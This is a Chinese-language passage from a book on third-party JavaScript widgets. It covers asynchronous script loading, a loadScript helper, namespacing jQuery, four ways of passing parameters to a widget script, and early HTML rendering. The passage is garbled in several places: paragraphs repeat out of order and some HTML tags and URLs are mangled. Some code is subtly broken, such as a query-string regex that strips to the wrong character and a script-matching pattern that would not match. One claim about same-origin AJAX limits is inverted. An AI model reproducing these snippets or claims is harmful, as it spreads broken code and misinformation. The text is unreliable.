代码压缩器的输出通常难以阅读，甚至无法阅读；它们通常保留给部署在生产环境的代码。你将在第 9 章“性能”中学习更多关于压缩器的知识。

重新声明这些变量的第二个原因主要围绕 `undefined` 对象展开。你会注意到 `undefined` 并没有显式地传递给函数。由于没有传递值，`undefined` 函数参数会被浏览器赋予 `undefined` 的默认值。对于任何没有传递显式值的函数参数，都是如此：

```javascript
function foo(a, b) {
  console.log(a); // => 1
  console.log(b); // => undefined
}

foo(1);
```

这样给 `undefined` 取别名有一个好处。如果原始对象被当前执行环境中的其他代码修改过，将不会影响你的代码，因为你使用的是局部别名，该别名具有原始的、未触碰的值。你会发现这是 JavaScript 库作者使用的一种常用技术。

### 2.3.2 基础应用程序流

接下来，让我们看看列表 2.2 主应用程序主体中发生的函数调用。这些是实现图 2.4 所示基础应用程序流的高级函数。虽然并不是所有的第三方应用程序都需要遵循这些精确的步骤，但这是一个很好的起点。

第一个函数 `loadSupportingFiles` 旨在继续执行之前加载应用程序所需的任何支持文件。并不总是需要加载额外的文件，但许多应用程序可以通过将它们的 JavaScript 分发包拆分开下载来获益，因此我们将其作为一个步骤包含。

该函数接受单个参数：一个回调函数，旨在在 `loadSupportingFiles` 完成后执行：

```javascript
loadSupportingFiles(function() {
  var params = getWidgetParams();
  getRatingData(params, function() {
    drawWidget();
  });
});
```

在回调函数中，传递给脚本的任何参数都通过 `getWidgetParams` 提取。目前，Camera Stork 示例将使用单个参数：发布商试图在他们的网站上显示的产品 ID。

但还有许多其他参数可以传递。例如，你可以在脚本包含中嵌入关于发布商的识别信息，并将该信息传递给你的服务器。如果你想跟踪哪些发布商为你发送了流量，这非常有用——Stork 业务甚至可以为发布商支付联盟佣金。

在脚本提取了这些参数后，是时候使用 `getRatingData` 函数从服务器获取产品数据了。这些数据将是产品名称、购买产品的 URL 以及当前的评分或分数。

作为最后一步，在从服务器接收数据后，应用程序使用这些数据在页面上渲染组件。这发生在 `drawWidget` 函数内部。

值得注意的是，这些函数目前都不存在。我们只是对 `widget.js` 代码进行了一个高级概述。你将在接下来的章节中实现这些函数。让我们从第一个开始：`loadSupportingFiles`。

### 2.4 加载额外文件

第三方脚本可能只依赖于 JavaScript 文件。但更有可能像大多数 Web 应用程序一样，你的脚本将依赖许多支持文件。

这些可以是自己的文件（例如包含辅助函数的脚本），也可以包含有用 JavaScript 库的文件（如 jQuery 或 Prototype.js）。通常在脚本执行任何进一步操作之前需要这些文件到位。

你可以始终扩展脚本包含以包含你打算加载的任何文件。例如，你可以要求发布商在页面上包含以下代码：

```html
<script src="http://camerastork.com/widget/jquery.js"></script>
<script src="http://camerastork.com/widget/helpers.js"></script>
<script src="http://camerastork.com/widget/widget.js"></script>
```

这将有效；它在加载主组件文件（`widget.js`）之前加载了支持文件（`jquery.js`、`helpers.js`）。但这样修改脚本包含是一个非常糟糕的主意。极其糟糕。

它糟糕是因为它缺乏灵活性；你注定要始终加载这些文件。如果你以后需要更改你依赖的文件，你将无法做到，因为这些代码固定在发布商的页面上。而让发布商用新代码更新他们的 HTML 源是众所周知的困难。

### 图 2.4：`widget.js` 的高级应用程序流

- 加载支持文件
- 获取产品数据
- 识别产品
- 渲染产品

你想要做的是坚持原始的脚本包含代码片段，该片段加载了一个作为应用程序入口的单个脚本文件。

在加载完初始脚本后，你将使用 JavaScript 动态加载任何额外的辅助文件。在本节中，你将学习如何这样做，从你编写的纯 JavaScript 文件开始，然后过渡到流行的 JavaScript 库。

#### 2.4.1 JavaScript 文件

要从你的应用程序加载额外的 JavaScript 文件，你将使用与异步脚本包含代码片段相同的技术。如果你还记得的话，该代码片段使用 `document.createElement` 创建了一个新的 `<script>` 标签元素，然后将其附加到 DOM 中。

这一次有几处陷阱。首先，在执行该文件中声明的任何函数之前，你需要知道文件何时被浏览器加载。其次，鉴于你可能需要以这种方式加载多个 JavaScript 文件，你将希望将这段代码封装在一个可重用的函数中。

确定文件何时已加载并不复杂。浏览器提供了可以监听的事件，可以报告文件何时已加载（见图 2.5）。唯一的陷阱是，不同的浏览器支持不同的 `onload` 事件，而你需要支持所有这些事件。

此外，由于你目前还没有任何可用的 JavaScript 库，你需要自己编写原始的事件处理代码。

下面的代码列表显示了此类脚本加载函数的实现，我们将其命名为 `loadScript`。该函数的行为在图 2.5 中可视化了。

| 步骤 | 描述 |
| :--- | :--- |
| 1 | `loadScript()` 创建一个 `<script>` 元素并设置它的 `onload` 处理程序和 URL。 |
| 2 | 脚本元素从 URL 下载脚本，完成后调用 `onload` 处理程序。 |
| 3 | `onload` 处理程序调用你的回调，该回调可以使用新加载脚本中的代码。 |
| 4 | 最后，从脚本元素中移除 `onload` 处理程序。 |

图 2.5：`loadScript` 函数从提供的 URL 加载 JavaScript 文件，并在该文件准备就绪时调用回调函数。

##### 加载额外的文件

```javascript
function loadScript(url, callback) {
    var script = document.createElement('script');
    script.async = true;
    script.src = url;
    var entry = document.getElementsByTagName('script')[0];
    entry.parentNode.insertBefore(script, entry);
    script.onload = script.onreadystatechange = function() {
        var rdyState = script.readyState;
        if (!rdyState || /complete|loaded/.test(script.readyState)) {
            callback();
            script.onload = null;
            script.onreadystatechange = null;
        }
    };
}
```

列表 2.4 显示了 `loadScript` 的用法。假设你依赖一个名为 `dom.js` 的文件，该文件包含了对你的应用程序至关重要的多个跨浏览器 DOM 辅助函数。`dom.js` 的内容可能如下列表所示。

```javascript
Stork.dom = (function(window, undefined) {
    var document = window.document;
    var dom = {};

    dom.get = function(selector) {
        return selector.charAt(0) === '#' ?
            document.getElementById(selector) :
            document.getElementsByTagName(selector);
    };

    /* ... */
    return dom;
})(window);
```

列表 2.3：异步 JavaScript 加载函数

列表 2.4：`dom.js`——Camera Stork 库文件，包含 DOM 实用函数

`loadScript` 函数的主体看起来与我们之前创建的异步片段相似，但有两个关键区别。首先，该函数适用于任意目标 URL，因此你可以复用它来加载不同的文件。

其次，`loadScript` 在脚本加载完成后执行回调参数，因此你可以队列函数，仅在代码准备就绪时执行它们。

要确定脚本何时加载，浏览器使用了两个不同的浏览器事件：标准的 `onload` 事件和 `onreadystatechange`（后者是 Internet Explorer 8 及更版本使用的非标准事件）。

`onreadystatechange` 每当加载脚本的状态发生变化时就会触发一次。实际状态可以在 IE 特有的 `readyState` 属性上获取，该属性在脚本元素的生命周期内可以持有多个值中的一个。`complete` 和 `loaded` 状态表示脚本已加载。

完成后，触发回调函数并断开事件处理程序，以避免 Internet Explorer 中的内存泄漏（http://mng.bz/W8fx）。

声明一个 `dom` 命名空间对象以持有库函数。该命名空间对象本身放置在顶层 `Stork` 命名空间内部，实际上变成了 `Stork` 的一个模块。将 `get` DOM 辅助函数分配给 `dom` 命名空间对象。

像这样将代码组织成模块并不是强制的，这是我们在项目中使用的一种惯例。将代码分组为逻辑模块是有意义的。

为了避免与其他库冲突，你可以将你的代码封装在立即执行函数表达式（IIFE）中。例如，如果你想使用 jQuery 而且不污染全局命名空间，你可以这样做：

```javascript
loadScript('http://code.jquery.com/jquery-3.6.min.js', function() {
    Stork.dom.get('some-id');
});
```

异步 JavaScript 加载函数：你需要知道文件何时被浏览器加载，以便可以执行它声明的任何函数。其次，鉴于你可能需要以这种方式加载多个 JavaScript 文件，你将希望将这段代码封装在一个可重用的函数中。


确定文件何时已加载并不复杂。浏览器提供了可以监听的事件，可以报告文件何时已加载（见图 2.5）。唯一的陷阱是，不同的浏览器支持不同的`onload`事件，而你需要支持所有这些事件。此外，由于你目前还没有任何可用的 JavaScript 库，你需要自己编写原始的事件处理代码。

`loadScript`函数的主体看起来与我们之前创建的异步片段相似，但有两个关键区别。

### 命名空间与冲突

`onreadystatechange`每当加载脚本的状态发生变化时就会触发一次。实际状态可以在 IE 特有的`readyState`属性上获取，该属性在脚本元素的生命周期内可以持有多个值中的一个。`complete`和`loaded`状态表示脚本已加载。完成后，触发回调函数并断开事件处理程序，以避免 Internet Explorer 中的内存泄漏（`http://mng.bz/W8fx`）。

声明一个`dom`命名空间对象以持有库函数。该命名空间对象本身放置在顶层`Stork`命名空间内部，实际上变成了`Stork`的一个模块。将 get DOM 辅助函数分配给`dom`命名空间对象。

**61**

**37**

### 加载额外的文件

对于 jQuery 来说，很容易的。jQuery 的作者非常友好地提供了一个名为`noConflict`的函数，允许你将全局变量`$`重新分配给另一个变量。为了在不污染全局命名空间的情况下使用 jQuery，你可以这样做：

```javascript
loadScript('jquery-3.6.min.js', function() {
    Stork.dom.get('some-id');
});
```

并不是所有库都提供像`noConflict`这样的辅助函数。根据库的不同，你可能需要付出更大的努力来确保你的文件与现有版本产生冲突。

### 从 CDN 加载库如何？

Google、微软等公司在高性能 CDN（内容分发网络）上免费托管 JavaScript 库。这些服务非常棒，因为 CDN 分布在全球，提供速度极快，并让你无需自己提供文件。缺点是你无法修改原始库的源代码，这使得在嵌入脚本中使用变得困难。

值得注意的是，加载外部库并不是开发第三方脚本的必要性要求。对于复杂的 Camera Stork 组件，像 jQuery 这样的库是巨大的资产。但如果你正在开发一个范围较小或 DOM 交互少的应用程序，库可能会引入不必要的开销。jQuery 在压缩和 Gzip 压缩后，历史上曾超过过 30 千字节。对于一个小型跟踪应用程序或为移动网页设计的脚本来说，这可能太多了。

我们还应该指出，尽管我们在书中可能会引用 jQuery 和其他库，但我们的目标是提供不依赖于任何外部库的解决方案和代码示例。我们希望无论你使用哪种框架或库，都能实现书中涵盖的所有技术。

### 命名空间 jQuery

```javascript
var Stork = Stork || {};
Stork.$ = Stork.jQuery = jQuery.noConflict(true);
```

列表 2.5：命名空间`jQuery`对象

5 查看 Mathias Bynens 的图表，“jQuery 文件大小”，请访问`http://mathiasbynens.be/demo/jquery-size`。

## 第 2 章：分发与加载你的应用程序

### 脚本与资源加载器

现在我们已经领略了资源加载的奇妙世界，你可能在想：“这难道不是一个已经解决的问题吗？”你说得对。许多被称为脚本加载器（script loaders）的常用库都会为你处理这项工作。LABjs 是一个由 Kyle Simpson 在 Web 性能专家 Steve Souders 指导下开发的（见`http://labjs.com/`）流行的脚本加载库，它针对不同的浏览器或环境优化了不同的加载技术。

LABjs 还能同时队列多个文件的加载，并维护脚本的执行顺序。LABjs 在这方面并非孤单一人——其他库，如 RequireJS 和 yepnope.js，也提供了围绕加载 JavaScript 和其他资源文件的各种功能集。

即使 LABjs 和其他脚本加载器已经解决了你的顾虑，这并不意味着你应该忘记刚刚学到的所有内容。从原理开始学习技术是有价值的。在本书中，我们努力涵盖第三方编程问题的基础解决方案，例如在本节中介绍的 JavaScript 加载示例。在合适的情况下，鼓励你使用自己选择的库和辅助代码。听从你的内心即可；我们知道你会做出正确的决定的。

### 2.5 传递脚本参数

让我们回顾一下。你向发布者提供了脚本包含片段（script include snippet），他们将其添加到网页的 HTML 源代码中，这导致你应用程序的初始脚本文件在他们的页面上加载。脚本加载后，它会加载任何额外的辅助 JavaScript 文件。在应用程序加载过程中，还有一步你需要在继续之前处理的：如何将配置参数从发布者页面传递到你的应用程序代码。

记住，小组件的首要目标是显示你产品目录中已存在商品的商品信息。在获取有关该产品的任何信息之前，你需要在发布者脚本包含片段中某种程度上识别出该产品。我们将查看四种方法：通过将产品 ID 嵌入目标脚本 URL 的查询字符串中；在脚本 URL 的哈希碎片（hash fragment）中；使用 HTML5 自定义数据属性（data attributes）；以及单独使用全局变量。

#### 2.5.1 使用查询字符串

向脚本传递参数直接的方法是使用脚本 URL 的查询字符串部分。如果你还记得 2.2 节中的脚本包含片段，脚本 URL 目标包含一个带有 product ID 参数的查询字符串部分：

```html
<script>
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js?product=1234';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

你可能记得这是我们在第 1 章中天气小组件示例中介绍过的相同参数传递技术。在那个示例中，服务器端 Python 应用从 HTTP 请求的查询字符串中读取邮政编码。该应用程序查询数据库获取相关的天气数据，并生成 JavaScript 在发布者的页面上输出结果。⁶

这次，我们将尝试一种不同的方法。不再依赖服务器端脚本来获取传递的参数，而是将使用纯客户端 JavaScript 来获取该参数。

⁶ 参见 Paul Irish 的“The protocol-relative URL”，地址为`http://paulirish.com/2010/the-protocol-relative-url/`。

##### 处理 HTTPS URL

到目前为止，我们涵盖的所有脚本加载示例都严格使用`http://`协议的 URL。这对于 99% 的网站来说运行良好，但某些发布者可能使用`https://`（HTTP 安全）提供其内容。这是一种加密服务器与浏览器之间内容的安全协议。

为了在这些网站上正确加载你的应用程序（避免“不安全内容”警告），你的应用程序也需要使用 HTTPS 服务。这需要两点：配置你的服务器支持 HTTPS，以及让你的脚本包含片段（以及所有其他 URL）指向正确的协议。一种技术是检查当前页面的协议并推导出相应的 URL：

```javascript
var secure = window.location.protocol === 'https:';
script.src = (secure ? 'https' : 'http') + '://camerastork.com/widget.js';
```

或者，你可以使用所谓的协议相对 URL（protocol-relative URLs）。它们会自动解析为父页面的协议：

```javascript
script.src = '//camerastork.com/widget.js';
```

在`http://`网站上，此 URL 将解析为`http://camerastork.com/widget.js`。在`https://`网站上，它将解析为`https://camerork/widget.js`。

协议相对 URL 更加优雅且适用于所有浏览器，但要小心——它们有时会产生意料之外的行为。例如，如果你正在使用`file://`协议在本地文件系统中查看网页，此示例将解析为`file://camerastork.com/widget.js`，这是一个（可能）不存在的 URL。在 HTTPS 页面上使用协议相对 URL 时，还会有某些资源（如`<link>`标签）加载两次的问题。⁶

记住，在使用任何一种技术之前，你必须配置服务器以同时处理 HTTP 和 HTTPS。我们将在书后的部分详细讨论 HTTPS。

这比你想象的要复杂。这是因为被服务的 JavaScript 文件本身并不知道它被服务的 URL。你的第一直觉可能是使用`window.location.href`访问脚本的 URL，但你会失败。这是因为`window.location.href`是包含 JavaScript 文件的页面 URL，而不是 JavaScript 文件本身的 URL。

获取脚本 URL 有一种巧妙的技术。它基于这样一个事实：加载第三方脚本的脚本 DOM 元素可以像普通 HTML 元素一样查询。你可以使用`getElementsByTagName`返回页面上所有脚本元素的列表，并遍历它们，直到找到指向你脚本文件的脚本元素。下面的列表展示了执行此操作的函数。

```javascript
function getScriptUrl() {
  var scripts = document.getElementsByTagName('script');
  var element;
  var src;
  for (var i = 0; i < scripts.length; i++) {
    element = scripts[i];
    src = element.src;
    if (src && /camerastork\.com\.widget\.js/.test(src)) {
      return src;
    }
  }
  return null;
}
```

现在你有了完整的 URL，只需提取查询参数。下一个列表中的函数接收 URL 的查询字符串部分并将其转换为键值对的哈希表。

```javascript
function getQueryParameters(query) {
  var args = query.split('&');
  var params = {};
  var pair;
  var key;
  var value;
  function decode(string) {
    return decodeURIComponent(string || "").replace('+', ' ');
  }
  for (var i = 0; i < args.length; i++) {
    pair = args[i].split('=');
    key = decode(pair[0]);
    value = decode(pair[1]);
  }
}
```

**41**

### 传递脚本参数

```javascript
params[key] = value;
}

return params;

}
```

从脚本包含 URL 中提取产品 ID 的最终代码如下段代码所示。请注意，你可以使用简单的正则表达式将查询字符串从完整 URL 分离：

```javascript
var url = getScriptUrl();
var params = getQueryParameters(url.replace(/^.*?\//, ''));
var productId = params.product;
```

此时，你的脚本已经获取了它从服务器请求信息所需的产品 ID。剩下的工作就是对该数据发起某种 AJAX 请求，并在页面上渲染相应的 HTML。

但以这种方式使用查询字符串有一个很大的缺点。你可能为每个产品分发不同的脚本包含片段，因为 URL 中的产品 ID 组件会随着每个产品而改变。这将导致 JavaScript 文件的缓存变得困难，因为 Web 浏览器会将每个新 URL 视为一个全新的资源，即使查询字符串没有更改所返回的代码。

#### 2.5.2 使用片段标识符

有一种方法可以将参数作为 URL 的一部分传递给你的脚本，而无需将产品 ID 发送服务器。与其将产品 ID 包含在 URL 的查询字符串中，不如将其作为 URL 片段标识符的一部分传递。片段标识符是 URL 的最后部分，包含了哈希（`#`）字符之后的所有内容。它传统上用于标识文档的一部分，而且与查询字符串不同，浏览器不会将其发送到服务器。

这里再次是脚本 URL，这次将产品 ID 嵌入片段标识符中：

`http://camerastork.com/widget.js#product_id=1234`

修改之前的代码以适用于片段标识符是非常简单的。你仍然可以使用之前的相同`getScriptUrl`函数获取脚本元素的完整 URL。然后，你只需要使用不同的正则表达式，在调用`getQueryParameters`之前将片段标识符从完整 URL 中分离出来：

```javascript
var params = getQueryParameters(url.replace(/^.*?\#/, ''));
```

记住，存储在 URL 片段标识符上的参数不会传递给服务器。对于产品小组件来说，这是非常棒的；你随脚本包含片段一起分发的基础 URL 对于每个产品都是相同的，这使得在客户端缓存你的脚本文件变得更加容易。但对于其他实际上需要将这些值传递给服务器的第三方应用程序，你可能希望坚持使用传统的查询字符串。

**42**

## 第 2 章：分发并加载你的应用程序

我们已经了解了两种向脚本传递参数的技术。一种将这些参数传递给服务器；另一种则严格在客户端可用。我们在这里停下，继续开发小组件的其他部分。但我们将介绍一些可能更符合你喜好的额外技术。

#### 2.5.3 使用自定义数据属性

传递参数的另一种技术是将它们作为 HTML5 自定义数据属性（通常称为`data-*`属性）的一部分存储在脚本包含片段中。在 Stork 小组件的情况下，这意味着将产品 ID 作为自定义属性存储在`<script>`标签本身上。

让我们来看修改后的 Camera Stork 代码。

```html
<script data-stork-product-id="1234">
(function() {
  {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

你可以看到我们为脚本包含片段添加了一个属性，名为`data-stork-product-id`。该属性包含了产品 ID。`data-*`属性的名称以前缀`stork`，这样它与其他 JavaScript 代码冲突的概率较小。

### 什么是 DATA-* 属性？

HTML5 引入了一项新功能`data-*`属性，它是用于将数据嵌入 HTML 元素的自定义属性。它们非常易于使用；任何以`data-`为前缀的属性都被视为自定义属性并被浏览器忽略。几乎每个浏览器都支持数据属性；即使是不显式识别`data-*`属性的旧版浏览器也能正常工作，因为它们默认忽略未知属性。

接下来，你的第三方应用程序代码需要查询 DOM 以定位包含此属性的脚本元素。这应该与查询字符串和片段标识符技术的示例感觉相似。

```javascript
function getProductId() {
  var scripts = document.getElementsByTagName('script');
  var id;
  for (var i = 0; i < scripts.length; i++) {
    id = scripts[i].getAttribute('data-stork-product-id');
    if (id) {
      return id;
    }
  }
  return null;
}
```

列表 2.8：在自定义数据属性中嵌入产品 ID

列表 2.9：定位并提取`data-stork-product-id`属性值

**43**

### 传递脚本参数

相当直接，对吧？使用此类`data-*`属性的用处之一是，它们还可以帮助你的脚本识别脚本包含片段在发布者页面上的 DOM 位置。如果脚本包含片段的位置表示你的第三方应用程序应该在何处渲染自己，这将特别有价值。我们将在下一章中详细探讨这一点。

### DATA-* JAVASCRIPT API

作为 HTML5 的一部分，W3C 定义了访问`data-*`属性的有用接口。例如，你可以使用`dataset`属性：

```javascript
id = scripts[i].dataset.storkProductId;
```

遗憾的是，浏览器对`dataset`的支持仍然有限——在此期间，我们建议使用旧方法`getAttribute`。

#### 2.5.4 使用全局变量

在过去的几个节中，我们探索了使用 DOM 作为向脚本传递参数的方法。另一种方法是完全避免 DOM，而是使用全局变量。在全局作用域中声明的变量附加到`window`对象上，可以被任何脚本访问。


```javascript
var product_id = 1234;
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/widget.js';
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
```

列表 2.10：使用全局变量传递参数

**44**

# 第 2 章

## 分发并加载你的应用程序

我们看了两种向脚本传递参数的技术。一种将这些参数传递给服务器；另一种则严格在客户端可用。我们在这里停下，继续开发小组件的其他部分。但我们将介绍一些可能更符合你喜好的额外技术。

在你的第三方脚本文件（`widget.js`）中，你可以读取`product_id`变量，并在加载并渲染该产品。这种全局变量由页面上执行的所有脚本共享，并可以被其中任何一个修改。同样，通过设置此值，你可能会覆盖其他程序依赖的变量。一个主意是将全局变量放在你的应用程序命名空间内。这将与其他脚本冲突，因为其他脚本共享你命名空间的概率很小。你必须先初始化命名空间，因为之前声明命名空间的`widget.js`文件尚未被加载。

```javascript
var Stork = window.Stork || {};
(function() {
  Stork.product_id = 1234;
})();
```

**45**

## 获取应用数据

现在你已经打好了基础工作。缺点是，脚本包含片段（script include snippet）增加了三行代码——这并不是大问题。优点是，该脚本包含片段可以在页面上多次包含，而且你将拥有一个产品 ID 数组可以处理。

使用全局变量来传递参数，而不是将它们嵌入 DOM 中（通过查询字符串或分段标识符），或者使用`data-*`属性，是否有好处呢？肯定的。首先，你可以将任何类型的 JavaScript 对象作为参数，例如字典对象。而且，尽管存在争议，但将参数作为全局变量嵌入对于发布者来说，可能比将它们附加在长 URL 的末尾更清晰。最后，与我们介绍过的其他技术不同，你不需要查询 DOM 来提取参数——它们已经为你初始化为 JavaScript 变量了。

当性能重于一切时，全局变量可能是最佳选择。表 2.1 总结了各种技术的优缺点。

我们在本节中介绍的四种方法——使用查询字符串、分段标识符、`data-*`属性和全局变量各有优劣（见表 2.1）。你使用哪种方法很大程度上取决于你的应用程序类型。某些小部件可能会使用`data-*`属性，因为它们允许应用程序定位脚本包含片段在 DOM 中的位置。分析脚本可能会为了其可配置性和性能而使用全局变量。使用查询字符串可能看起来是格格不入的，但在某些情况下，在请求脚本文件时向服务器传递参数是更优的。请记住，无论你实现哪种方案，以后切换都会很困难——所以请明智选择。

### 2.6 获取应用数据

到此时，你已经将脚本包含片段分发给了参与的发布者，他们已将其包含在页面 HTML 源代码中。该片段加载了你的应用代码，然后该代码加载其自身的任何支持文件。随后，你的应用程序将提取作为脚本包含片段一部分的任何参数。对于 Camera Stork 示例，这是一个单一参数——产品 ID，它用于识别要渲染的产品。

表 2.1

参数传递技术的优缺点

| 技术 | 优点 | 缺点 |
| :--- | :--- | :--- |
| 查询字符串 | 使用 URL，传递给服务器 | 必须查询 DOM，缓存性较差 |
| 分段标识符 | 使用 URL，易于缓存 | 必须查询 DOM |
| Data-* 属性 | 易于读、易于缓存、可以定位脚本包含片段 | 必须查询 DOM |
| 全局变量 | 易读、易于缓存、参数类型灵活、不需要查询 DOM | |

**46**

# 第 2 章

## 分发并加载你的应用

对于一个章节来说进展很大，但我们遇到了障碍。在渲染该产品之前，你必须先从服务器获取有关它的信息——例如产品名称、价格、外观和当前评分等信息。

解决这个问题有两种方法。第一种（也是最简单的）方法是将整个 Camera Stork 产品目录作为 JavaScript 对象嵌入到应用程序源代码中。这可以包含在你的主小部件文件（`widget.js`）中，但由于目录可能会变化（价格每天都在变），使用我们在 2.4 节中展示的技术作为单独的 JavaScript 文件加载可能更好。

以下是在单独源文件（`catalog.js`）中声明目录对象的方式：

```javascript
Stork.catalog = (function() {
  return {
    1337: { name: 'E90', company: 'Mikon', price: '599.99' },
    1338: { name: 'FabPix 30', company: 'Mikon', price: '139.99' },
    ...
    8871: { name: 'SuperShot', company: 'Kanon', price: '178.99' },
    8872: { name: 'SuperShot', company: 'Kanon', price: '219.99' }
  };
})();
```

假设此文件在`loadSupportingFiles`函数内部较早加载，那么`getProductData`函数应该如下：

```javascript
function getProductData(params, callback) {
  var id = params.id;
  callback(Stork.catalog[id]);
}
```

这并不难，也不完全符合最佳实践。如果 Camera Stork 产品目录特别大会怎样？认为相机商店的整个目录可能包含数万件物品，这是合理的。如果每个产品条目大约占用 100 字节来描述，这意味着意味着需要提供一个重量接近 1 MB 的 JavaScript 文件（100 字节 x 10,000 = 略小于 1 MB）。这在东京和首尔等高带宽的未来城市中可能行得通，但对于世界其他地方，这是一个无法下载的海量数据。

另一种方法（即第二种方法）是从服务器逐个获取产品信息。这就是为什么`getProductData`初始接受一个回调参数的原因——它假设为了获取数据，你需要针对给定的产品 ID 向服务器发起 HTTP 请求，并在等待响应后再触发回调。

对于普通的 Web 应用程序，这可以使用`XMLHttpRequest`（或者通常所说的 AJAX）来轻松解决。但正如我们在第 1 章中简要提到的，浏览器将`XMLHttpRequest`限制同源，这意味着你不能向自己的服务器进行 AJAX 调用。

**47**

## 总结

从服务器动态请求数据（或向服务器提交数据）是一个高级主题，我们很快就会在第 4 章中详细介绍它。现在，让我们坚持使用将整个 Camera Stork 目录嵌入应用代码中的这种朴素方法吧。

### 2.7 总结

在发布者页面上渲染小部件之前，有大量的准备工作要完成。首先，你必须分发你的脚本包含片段，这是加载应用的入口点。然后，你需要加载任何依赖项，例如 JavaScript 文件或库。最后，你需要从发布者页面向应用程序传递参数，以便检索信息。你已经看到这些初始步骤有多种技术。它们的复杂程度和范围不同。取决于你选择最适合应用程序的技术。

**48**

# 第 3 章

## 渲染 HTML 和 CSS

在上一章中，你学习了如何在发布者页面上加载第三方 JavaScript 代码、加载支持文件，并将参数从发布者页面传递给你的脚本。到此时，仍然没有任何可见；你的代码在发布者页面上执行，但你还没有向 DOM 中添加任何视觉元素。现在是时候解决这个问题了。在本章中，我们将涵盖在发布者页面上实际渲染 HTML 和 CSS 所涉及的步骤。

**49**

### 输出 HTML

作为一种第三方脚本，渲染比你想象的要复杂得多。如果处理不当，仅仅是在页面上生成标记就会导致严重的性能问题。此外，你必须与发布者的正文内容共享 DOM，并可能与其他第三方脚本共享。你还需要考虑发布者自己的 CSS 规则将如何与你的规则交互；你可能希望你的小组件继承页面的视觉风格，也可能希望它在每个网站上看起来保持一致。

但别担心，我们会提供解决方案。在本章中，我们将引导你完成在发布者页面上渲染第三方应用程序图形元素的步骤。我们将从将原始 HTML 放入 DOM 开始，然后对这些 HTML 进行样式处理。之后，我们将检查 HTML 和 CSS 编写的最佳实践，并探索如何使用 iframe 来保护你的内容不受冲突样式和脚本的影响。

### 3.1 输出 HTML

要实现可见且可交互的嵌入式小组件的首要工作是在发布者页面上输出 HTML。但如果你还记得第 2 章，你已经学会了如何创建脚本元素并将其附加到页面，以便加载你的应用程序文件。这有什么区别呢？

位置，位置，还是位置。当你向页面附加脚本元素时，你并不在乎它们位于何处；脚本元素无论在 DOM 中的位置如何都会加载其目标文件。但现在你正在输出应用程序的视觉元素，情况就不同了。如果你不在发布者预期的地方渲染应用程序的 HTML，那么你的应用程序将不会成功。

我们将介绍两种在发布者页面上输出 HTML 的方法。第一方法使用`document.write`，它在浏览器处理时将文本输出到文档流中。第二种方法涉及将 HTML 转换为 DOM 元素，并将它们插入到已知位置附近，例如脚本包含片段的位置。此外，我们还将查看如何在同一页面上渲染小组件的多个实例，并查看发布者如何定义自己的渲染目标。首先是——使用`document.write`以老办法输出 HTML。

#### 3.1.1 使用 document.write

向发布者页面输出 HTML 最简单的方法是使用`document.write`。该函数接受一个字符串作为输入，并将其作为 HTML 输出到文档流中。这意味着 HTML 在浏览器遇到`document.write`调用的地方输出。它*仅*能与标准（阻塞型）脚本包含配合工作，因为浏览器需要阻止进一步的页面处理，以等待你的`document.write`调用完成输出。如果它等待，`document.write`将输出到浏览器当时处理页面的任何地方，结果可能是小组件位置错误、HTML 格式错误，甚至是一个完全空白的文档¹

¹ 在页面已加载后尝试调用`document.write`实际上会清空 DOM，给用户呈现一个空白页面。不说说，如果使用不当，它是具有破坏性的。

www.it-ebooks.info

**50**

# 第 3 章

## 渲染 HTML 和 CSS

所以，如果你使用标准的脚本包含分发 Camera Stork 小组件，你可以这样操作：

```html
<script src="http://camerastork.com/widget.js?product=1337"></script>
```

你的应用程序代码可以使用`document.write`向发布者页面输出你的小组件 HTML：

```javascript
document.write(
  '<div>' +
  '<<h3>Mikon E90 数字单反</h3>' +
  '' +
  '<p>$599.99</p>' +
  '<p>4.3/5.0 \u2022 176 条评论</p>' +
  '</</div>>'
);
```

如果这看起来很熟悉，那应该是。你在第 1 章的第一个小组件示例中曾这样使用`document.write`。

但作为在发布者页面上渲染的技术，使用`document.write`实际上*并不*建议。这是因为它依赖于标准的阻塞脚本包含，正如你在上一章中中学到的，这并不被推荐用于第三方脚本。阻塞脚本会阻止发布者页面的处理，如果你的脚本文件加载缓慢或更糟糕——变得不可用，可能会给发布者带来严重的性能问题。相反，我们建议使用异步脚本加载技术（例如动态插入脚本 DOM 元素），遗憾的是，这些技术无法与`document.write`配合使用。

这并不意味着`document.write`没有价值。正如你在本章后面看到的，它在许多不同的语境下都是强大的工具。但对于在发布者 DOM 上渲染的燃要问题，我们需要不同的方法——一种不需要阻塞浏览器的方法。

### 3.1.2 附加到已知位置

我们认为在发布者页面上渲染标记的最佳方法是将你的 HTML 字符串转换为 DOM 元素，然后将它们附加到发布者页面上已存在的元素。无论你是使用阻塞脚本包含还是异步脚本包含，这种方法都有效。这是双赢的。要做到这一点，你首先需要使用`document.createElement`创建容器。此元素将持有你的 HTML。为了实现这一点，你会将 HTML 字符串分配给容器的`innerHTML`属性：

```javascript
var html =
'<div>' +
  '<h3>Mikon E90 数字单反</h3>' +
  '' +
  '<p>$599.99</p>' +
  '<p>4.3/5.0 \u2022 176 条评论</p>' +
  '</div>';

var div = document.createElement('div');
div.innerHTML = html;
```

此时你有一个持有小组件的`<div>`容器。剩下的工作是将该元素附加到发布者页面。但是附加在哪里呢？最常见的用例是附加在发布者定位脚本包含的地方。

**51**

### 输出 HTML

很久以前，JavaScript 开发者直接在文件中编写 HTML——就像我们目前展示的示例那样。唉，字符串拼接并不是 JavaScript 的强项，这些 HTML 片段编写起来会非常麻烦。相反，大多数开发者使用 JavaScript 模板库，它们允许使用专为生成标记设计的语言编写 HTML。那里有很多模板库，但我们推荐查看 Mustache.js 及其衍生版本 Handlebars.js 和 Hogan.js。

#### 定位脚本包含

为了定位你的脚本包含片段，它需要在 DOM 中以某种方式被唯一标识。你可以实现此点的方法是在包含片段的`<script>`标签中添加预定义的 ID、类或数据属性。然后，你只需要查询 DOM 中的此标识属性来定位脚本元素。考虑这个用于 Camera Stork 小组件的异步脚本包含片段，它将产品 ID 作为查询字符串的一部分传递。此片段现在包含的`<script>`标签中有一个唯一的 ID `stork-widget`。

```html
<script id="stork-widget">
(function() {
